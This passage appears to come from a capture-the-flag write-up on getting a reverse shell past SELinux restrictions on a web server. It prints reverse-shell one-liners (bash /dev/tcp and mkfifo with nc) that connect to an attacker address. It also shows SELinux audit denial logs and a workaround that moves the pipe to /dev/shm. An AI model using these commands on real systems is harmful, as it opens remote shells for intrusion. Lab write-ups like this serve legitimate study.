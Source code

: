 ```

bash -c 'bash -i >& /dev/tcp/10.10.14.8/443 0>&1'

```

I get a callback and shell, no logs.

The SELinux config must allow for http ports like 443 outbound. In some testing, only HTTP and LDAP related ports seemed to work outbound.

#### mkfifo

Similarly, when I try to run the `mkfifo` shell:

```

CTF> rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.8 443 >/tmp/f

```

I get blocked and logs in audit:

```

type=AVC msg=audit(1563309851.417:789): avc:  denied  { create } for  pid=2925 comm="mkfifo" name="f" scontext=system_u:system_r:httpd_t:s0 tcontext=system_u:object_r:tmp_t:s0 tclass=fifo_file                                                               
type=SYSCALL msg=audit(1563309851.417:789): arch=c000003e syscall=133 success=no exit=-13 a0=7fffba8e5f55 a1=11b6 a2=0 a3=7fffba8e5460 items=2 ppid=2923 pid=2925 auid=4294967295 uid=48 gid=48 euid=48 suid=48 fsuid=48 egid=48 sgid=48 fsgid=48 tty=(none) ses=4294967295 comm="mkfifo" exe="/usr/bin/mkfifo" subj=system_u:system_r:httpd_t:s0 key=(null)
type=CWD msg=audit(1563309851.417:789):  cwd="/var/www/html"
type=PATH msg=audit(1563309851.417:789): item=0 name="/tmp/" inode=12601314 dev=fd:00 mode=041777 ouid=0 ogid=0 rdev=00:00 obj=system_u:object_r:tmp_t:s0 objtype=PARENT cap_fp=0000000000000000 cap_fi=0000000000000000 cap_fe=0 cap_fver=0                   
type=PATH msg=audit(1563309851.417:789): item=1 name="/tmp/f" objtype=CREATE cap_fp=0000000000000000 cap_fi=0000000000000000 cap_fe=0 cap_fver=0                                                                                                               
type=PROCTITLE msg=audit(1563309851.417:789): proctitle=6D6B6669666F002F746D702F66

```

SELinux is blocking the pipe creation, at least in `/tmp`. I can see `object_r:tmp_t` for `/tmp`, and `tclass=fifo_file` for a pipe.

So I tried it outside of `/tmp`, and no logs:

```

rm /dev/shm/f;mkfifo /dev/shm/f;cat /dev/shm/f|/bin/sh -i 2>&1|nc 10.10.14.8 443 >/dev/shm/f

```

But also no shell.. Turns out `nc` isn’t on the box, but the pipe did create:

```

CTF> which nc
CTF> ls -l /dev/shm
total 0
prw-r--r--. 1 apache apache 0 Jul 16 22:46 f

```
